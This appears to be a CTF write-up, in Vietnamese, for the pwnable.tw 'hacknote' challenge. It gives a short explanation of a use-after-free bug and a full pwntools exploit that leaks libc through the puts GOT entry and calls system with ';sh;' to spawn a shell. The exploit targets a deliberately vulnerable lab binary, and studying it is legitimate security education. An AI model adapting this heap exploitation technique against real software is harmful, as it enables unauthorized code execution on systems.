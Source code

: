 - sử dụng UAF tiếp , lúc này thằng print sẽ bị thay bằng system và đối số của nó (chunk content) sẽ bị thay bằng chuỗi ;sh;

- ta cần free 1 chunk tránh khi free nó sẽ gộp chunk

script : 

```
#!/usr/bin/env python3

from pwn import *

exe = ELF("./hacknote_patched")
libc = ELF("./libc_32.so.6")
ld = ELF("./ld-2.23.so")

context.binary = exe

#p = process()
p = remote('chall.pwnable.tw', 10102)
#gdb.attach(p,gdbscript='''
#           b*0x0804869a
#           b*0x080486e0
#            b*0x0804872c
#            b*0x080488a5
#            b*0x0804893d
#            b*0x08048863


 #          ''')
def add_note(size,data):
    p.sendlineafter(b'Your choice :',b'1')
    p.sendafter(b'Note size :',size)
    p.sendafter(b'Content :',data)

def delete_note(idx):
    p.sendlineafter(b'choice :',b'2')
    p.sendafter(b'Index :',idx)
def print_note(idx):
    p.sendlineafter(b'choice :',b'3')
    p.sendafter(b'Index :',idx)

input()
add_note(str(0x20),p32(0xdeadbeef))  #idx 0
add_note(str(0x20),p32(0xcafebabe))   #idx  1
delete_note(str(0))
delete_note(str(1))

add_note(str(8),p32(0x0804862b) + p32(exe.got.puts))
print_note(str(0))
leak = u32(p.recv(4))


print("leak: ",hex(leak))

libc.address =  leak - libc.sym.puts
print("libc address: ",hex(libc.address))

delete_note(str(2))
add_note(str(8),p32(libc.sym.system) + b';sh;')
print_note(str(0))




```